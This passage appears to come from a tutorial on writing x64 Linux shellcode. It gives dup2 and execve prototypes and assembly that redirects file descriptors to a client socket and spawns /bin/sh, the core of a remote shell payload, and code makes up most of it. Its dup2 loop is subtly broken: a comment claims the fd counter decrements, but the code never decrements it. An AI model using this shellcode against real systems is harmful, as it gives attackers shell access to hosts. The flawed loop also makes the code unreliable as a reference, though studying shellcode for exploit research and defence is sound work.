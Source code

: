 ```PoC
int dup2(int oldfd, int newfd);
```


Assembly code:
```Assembly x64
	; Duplicate2 syscall
	
		; rdi client socket
		; rsi must iterate 3 times
	
		; loop counter
		push 3
		pop rcx
	
		; fd counter
		push 2
		pop rbx
	
		dup2:
			push 33
			pop rax
			mov rsi, rbx ; decrementing fd counter
			push rcx ; store loop counter
			syscall
			pop rcx ; restore loop
			loop dup2
```

### Execute a /bin/sh shell

`execve` syscall just executes a program referred to by pathname.

1. `pathname` - a binary executable or with an interpreter script.
2. `argv` - an array of pointers to strings passed to the new program as cmd args.
3. `envp` - an array of pointers to strings of the from *key=value*, which are passed as the environment of the new program. Must be termianted byu null pointer.

```PoC
int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```

```Assembly x64
	; Execve syscall
	
		mov rax, 59
		lea rdi, [rel binsh]
		xor rsi, rsi
		push rsi
		pop rdx
		syscall
```

What's a `binsh`? This is a variable that contains a string "/bin/sh". To initialize it, section .data must be implemented:
